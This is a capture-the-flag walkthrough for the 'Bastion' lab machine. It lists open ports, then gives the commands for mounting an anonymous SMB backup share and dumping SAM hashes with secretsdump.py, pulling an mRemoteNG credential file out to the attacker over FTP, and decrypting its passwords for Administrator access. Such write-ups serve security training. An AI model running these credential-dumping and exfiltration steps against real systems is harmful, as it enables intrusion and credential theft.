

# Bastion

### Reconnaissance

- port 22 SSH OpenSSH for_Windows_7.9 (protocol 2.0)
- port 135/tcp RPC
- port 139/tcp NetBIOS
- port 445/tcp SMB Windows Server 2016 Standard 14393 microsoft-ds
- port 5985/tcp HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 47001/tcp HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- ports 49664-49670/tcp RPC

SMB anonymous access is enabled, there is a share called Backups containing .vhd files ()

### Exploitation

Mounting the Backup share lets us mount the .vhd files, giving us access to the SAM and SYSTEM registry hives

`sudo mount -t cifs //10.10.10.134/Backups /mnt/backup`

`sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd`

We can then use secretsdump.py to dump the hashes

`python2.7 /opt/impacket-0.9.19/examples/secretsdump.py -sam SAM -system SYSTEM local > hashes.txt`

The Adminstrator and L4mpje hash are identical and crackable

The Administrator password is wrong but L4mpje's credentials give us ssh access (or using evil-winrm)

### Privilege Escalation

Checking the installed programs in Program Files (x86), we see that mRemoteNG, a connection manager program,
is installed

Connection information is stored in `C:\Users\Username\AppData\Roaming\mRemoteNG\confCons.xml`

Using a python ftp server, upload the confCons.xml file to the attacking machine (copy + paste caused the 
decrypt script to fail)

`python -m pyftpdlib -p 21 --write`

Decrypt the passwords with [mRemoteNG_password_decrypt](https://github.com/gquere/mRemoteNG_password_decrypt)

SSH into the target with Administrator credentials for root.txt
